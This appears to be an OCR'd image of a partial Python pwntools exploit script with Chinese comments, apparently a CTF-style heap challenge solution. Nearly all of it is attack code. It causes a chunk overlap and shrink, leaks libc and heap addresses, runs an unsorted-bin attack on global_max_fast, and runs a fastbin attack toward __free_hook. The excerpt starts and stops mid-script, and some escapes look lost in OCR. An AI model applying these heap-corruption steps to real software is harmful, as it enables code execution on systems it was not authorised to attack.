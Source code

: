 ```
def free(index):
    r.sendlineafter("Choice","3")
    r.sendlineafter("Index",str(index))
def show(index):
    r.sendlineafter("Choice","4")
    r.sendlineafter("Index",str(index))
# gdb.attach(r)
add(0x18) #0
add(0x500) #1
edit(1,p64(0x500)*(0x500/8))
add(0x80) #2
add(0x18) #3 #用于和top_chunk分开
free(1)
edit(0,'a'*0x18)
add(0x30) #1
add(0x80) #4
add(0x420) #5
free(1)
free(2) #chunk shrink
#现在4和5是重合的，可以通过5修改这个0x430大小的堆块
add(0x30) #1
#show泄露地址
show(4)
r.recv(2)
libc.address = u64(r.recvline(False).ljust(8,'x00')) -0x7ffff7dd1b78 + 0x7ffff7a0d000
success("libc_addr =&gt; "+hex(libc.address))
add(0x10) #2
add(0x10) #6
add(0x10) #7
free(7)
free(2)
show(4)
r.recv(2)
heap_addr = u64(r.recvline(False).ljust(8,'x00')) - 0x5555557570a0 + 0x0000555555757000
success("heap_addr =&gt; "+hex(heap_addr)) 
free(6)
add(0x90) #2
#通过unsortbin attack修改global_max_fast为一个很大的值main_arena+0x58
max_addr = libc.address - 0x7ffff7a0d000 + 0x7ffff7dd37f8
add(0x20) #6 和5是同一块
add(0x60) #7
add(0x410) #8
free(6)
payload = p64(0)+ p64(0x31) + p64(0) +p64(max_addr-0x10)
edit(5,payload)
add(0x20) #6
# 通过fastbin_attack修改free_hook为prinf
free_hook = libc.sym['__free_hook']
fake_addr = free_hook -0x108b-8
free(7)
payload = p64(0)+ p64(0x31) + 'x00'*0x20
payload += p64(0) +p64(0x71) + p64(fake_addr)
edit(5,payload)
add(0x60) #7
add(0x60) #9 用来伪造size，在free_hook上方
payload = 'x00'*3 + 'x00'*0x48+ p64(0x421)
edit(9,payload)
fake_addr = fake_addr+0x53
free(8)
payload = p64(0)+ p64(0x31) + 'x00'*0x20
payload += p64(0) + p64(0x71) + 'x00'*0x60
payload += p64(0) + p64(0x421) + p64(fake_addr)
edit(5,payload) #修改0x880chunk的fd
```